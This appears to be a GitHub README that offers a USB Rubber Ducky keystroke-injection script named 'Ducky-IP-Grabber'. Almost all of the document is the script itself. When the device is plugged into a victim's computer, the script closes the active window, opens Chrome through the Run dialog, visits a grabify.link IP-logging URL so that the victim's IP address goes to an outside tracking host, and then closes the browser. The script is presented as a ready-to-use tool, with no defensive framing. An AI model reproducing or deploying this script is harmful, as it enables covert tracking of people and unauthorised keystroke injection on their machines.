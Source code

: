 # Ducky-IP-Grabber
USB rubber ducky script to pull IPs

Pull IPs with this simple Ducky script


`REM Author: Cyber Coding`<br>
`REM Ducky for getting IPs `
<br>`REM Only works if the user has chrome`
<br>`Delay 5000`
<br>`REM ----------- opens chrome web browser`
<br>`ALT f4`
<br>`Delay 3000`
<br>`GUI r`
<br>`DELAY 500`
<br>`STRING chrome`
<br>`DELAY 600`
<br>`ENTER`
<br>`DELAY 3000`
<br>`REM ----------- gets IPS`
<br>`STRING https://grabify.link/3K27ZM`
<br>`DELAY 3000`
<br>`ENTER`
<br>`DELAY 2000`
<br>`ALT f4`
